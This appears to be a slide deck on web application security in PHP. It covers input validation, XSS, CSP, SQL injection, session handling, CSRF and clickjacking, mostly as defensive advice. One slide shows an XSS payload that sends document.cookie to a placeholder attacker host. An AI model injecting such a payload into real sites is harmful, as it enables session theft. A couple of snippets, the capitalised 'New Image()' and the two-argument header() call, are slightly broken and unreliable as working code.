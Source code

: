 #HSLIDE
# Web Development Security
<link rel="stylesheet" type="text/css" href="https://fonts.googleapis.com/css?family=Ubuntu+Mono">

#HSLIDE
## Pillars of Information Security
- Confidentiality
- Integrity
- Availability

#HSLIDE
## Principles
- Multiple Layer Security
- Consider that each layer will eventually fail
- Provide the minimum amount of information required

#HSLIDE
## Validate user input
Since HTTP requests can be manipulated client-side, all user input must be validated.

#HSLIDE
### Protection
- PHP offers the extensions ***ctype*** and ***filter***.
In addition, most frameworks implement some sort of data sanitization.
- PHP 7+ provides ***type declarations*** that allow you to specify the expected type of parameters.  
```php
declare(strict_types = 1);
```
#HSLIDE
## Cross-site scripting (XSS)
When a user-supplied script is stored and/or executed by the application.

#HSLIDE
### Example
Assuming that an application allows input via GET method, a malicious attacker do this injection:
```javascript
<script>
(New Image()).src = "http://attacker_url/?" + escape(document.cookie);
</script>
```
#HSLIDE
### Types
* Stored
* Non-persistent
* Based on DOM

#HSLIDE
### Consequences
- Cookie/session theft
- DOM Manipulation
- Keylogger
- Browser exploits
- Everything JavaScript allows

#HSLIDE
### Protection
- [*Same-origin Policy*](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy) only allows access to code from the same *origin* (protocol/domain/port) of the application, while allowing access to external files (a lib such as [JQuery](https://jquery.com), for example)
- Filter user input ([*strip_tags*](http://php.net/manual/en/function.strip-tags.php), [*filter_var*](http://php.net/manual/en/function.filter-var.php), [*preg_replace*](http://php.net/manual/en/function.preg-replace.php))
- Escape output ([*htmlspecialchars*](http://php.net/manual/en/function.htmlspecialchars.php), [*htmlentities*](http://php.net/manual/en/function.Htmlentities.php), [*filter_var*](http://php.net/manual/en/function.filter-var.php))
- Apply [*Content Security Policy*](https://content-security-policy.com/) (*default-src*, *img-src*, *script-src*) -> delete inline code
#HSLIDE
### Testing the CSP
A report is created when related warnings are generated by the application.
```
Content-Security-Policy-Report-Only
Report-uri /path/file.php
```

#HSLIDE
## SQL Injection

### Protection
- Do not concatenate data (parameters) with SQL queries
- Validate user input
- Use prepared statements
- Escape characters

#HSLIDE
## Status Management

### Protection
- Use HTTPS
- Set *secure* and *HttpOnly* *flags*
- Prevent XSS
- [Change](http://php.net/manual/en/function.session-regenerate-id.php) Session ID
- Store some distinctive user information in session
- Detect session hijacking (token)
- Use [HSTS](https://www.owasp.org/index.php/HTTP_Strict_Transport_Security_Cheat_Sheet) to hinder session theft

#HSLIDE
### Policies
```php
session.use_strict_mode = true;
session.cookie_secure = true;
session.use_only_cookies = true;
session.cookie_httponly = true;

Strict-Transport-Security: max-age = 86400; includeSubDomains
```

#HSLIDE
## Cross-site Request Forgery (CSRF)
- Caused by viruses, scam/phishing, malicious site/redirect

### Protection
- Submit token
- Do not use GET for operations involving data manipulation (just a good practice, because POST can also be manipulated)

#HSLIDE
### Clickjacking
- Attacker creates fake page and through requests to the target site (usually via iframe), takes advantage of the user session

#### Protection
```php
header('X-FRAME-OPTIONS', 'DENY'); // or SAMEORIGIN
```

#HSLIDE
## Tools
- [Arachni web scanner](http://www.arachni-scanner.com/)
- [Dependencies security checker](https://github.com/sensiolabs/security-checker)

#HSLIDE
## References
[OWASP](https://www.owasp.org)
